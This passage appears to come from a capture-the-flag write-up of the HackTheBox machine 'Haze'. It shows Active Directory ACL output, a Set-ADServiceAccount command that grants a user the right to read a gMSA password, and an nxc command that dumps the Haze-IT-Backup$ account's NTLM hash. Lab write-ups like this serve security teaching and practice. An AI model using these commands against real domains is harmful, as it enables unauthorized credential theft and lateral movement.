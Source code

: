 ```bash
ACEType                     : ACCESS_ALLOWED_ACE
ACEFlags                    : None
ActiveDirectoryRights       : ReadControl,ReadProperties,ListChildObjects
AccessMask                  : ReadControl,ReadProperties,ListChildObjects
InheritanceType             : None
SecurityIdentifier          : HAZE\gMSA_Managers
```

Bingo, `GMSA_MANAGERS` group has `WriteProperty` to `ms-DS-GroupMSAMembership` attribute for `Haze-IT-Backup$` account. This property stores the security principals that can access the GMSA password and we can use [Set-ADServiceAccount](https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adserviceaccount?view=windowsserver2025-ps#example-3-set-the-principals-allowed-to-retrieve-the-password-for-an-msa) powershell command to add `mark.adams` to the list.

```powershell
Set-ADServiceAccount -Identity haze-it-backup$ -PrincipalsAllowedToRetrieveManagedPassword mark.adams
```

Try again the `nxc` command.

```bash
> nxc ldap haze.htb -u 'mark.adams' -p '<password>' --gmsa
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAPS       10.10.11.61     636    DC01             [+] haze.htb\mark.adams:<password>
LDAPS       10.10.11.61     636    DC01             [*] Getting GMSA Passwords
LDAPS       10.10.11.61     636    DC01             Account: Haze-IT-Backup$      NTLM: <hash>
```

# Auth as haze-it-backup$

## bloodhound

### WriteOwner

![alt text](image-2.png)
